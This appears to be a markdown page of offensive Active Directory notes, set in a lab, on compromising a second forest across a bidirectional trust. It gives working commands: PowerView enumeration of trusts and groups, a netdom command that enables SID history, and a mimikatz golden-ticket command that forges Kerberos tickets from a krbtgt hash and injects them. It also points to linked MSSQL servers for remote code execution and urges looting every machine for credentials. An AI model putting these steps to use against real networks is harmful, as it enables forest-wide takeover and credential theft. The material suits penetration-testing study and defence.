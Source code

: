 **INTER-FOREST EXPLOTATION CONCEPT EXPLANATION:**

The inter-forest explotation is when you attempt to compromise an additinal forest. For example, let's say we are in the contoso.com forest, however we know about the existance of an other forest, named dev-contoso.com(obiously we want to comprimse this addtional forest). Between forests, the concept of trust also exist, and in our lab we will have a bidirecctional trust between the contoso.com forest and the dev-contoso.com forest. 

**OWNING AN ADDITIONAL FOREST WITH GOLDEN TICKETS:**

With a bidirecctional trust set, we must do the following:
Craft a golden ticket for another forest(dev-contoso.com) with an RID superior of 1000(we must find an existing group in our target forest that has an RID equal or superior than 1000) and with SID history correctly configured(SID history enabled), if our RID is less than 1000 our SID will get filtered regardless of the SID history settings:

```
To check if sidhistory is enabled:
PS C:\> Get-DomainTrust -Domain corp2.com
SourceName : corp2.com
TargetName : corp1.com
TrustType : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : TREAT_AS_EXTERNAL,FOREST_TRANSITIVE   -> if "TREAT_AS_EXTERNAL" appears then sidhistory is enabled, if doesn't appear it is disabled
TrustDirection : Bidirectional
WhenCreated : 4/2/2020 7:05:54 PM
WhenChanged : 4/18/2020 2:22:10 PM

To enable sidhistory in case it was disabled
C:\> netdom trust corp2.com /d:corp1.com /enablesidhistory:yes

C:\> netdom trust <target_domain> /d:<source_domain> /enablesidhistory:yes

Searching for an external domain group with an RID superior of 1000:

PS C:\>  Get-DomainForeignGroupMember -Domain corp2.com  -> this will return us with external groups that our user forms part of

PS C:\> Get-DomainGroupMember -Identity "Administrators" -Domain corp2.com  -> this will return us with groups/users that form part of the built-in Administartors group

Another important thing to keep in mind when looking for our target group, is that our target group must be in the "domain local security group".
For example, Domain Admins or Enterprise Admins form part of "global security group"(not "domain local security group"), meaning that if we try to impersonate, we will get filtered regardless of our RID and the sidhistory. 

To create the golden ticket:
mimikatz # kerberos::golden /user:h4x /domain:<origin_domain_name> /sid:<origin_domain_sid> /krbtgt:<origin_domain_krbtgt_ntlm_hash> /sids:<group_with_RID_equal_or_superior_than_1000_sid> /ptt
```

**LINKED MSSQL SERVERS:**

We will first list the linked SQL servers, specified in the "MSSQL Advanced Attacks.md" document, and then we will follow the techinque explained there to get remote code execution of our linked SQL server.


**OTHER POTENTIAL WAYS TO COMPROMISE AN ADDITIONAL FOREST:**

Despite the 2 techinques described here, you can attempt to compromise the additional forest without performing any Active Directory attack. For example you can search for a vulnerable/misconfigured exposed service that you can use as a foothold to that additional forest. So it can vary a lot depending on the scenario.

You can also search for configuration scripts for additional domain credentials, for this rease is very IMPORTANT TO LOOT AT DEEPTH ALL THE MACHINES YOU CAN.

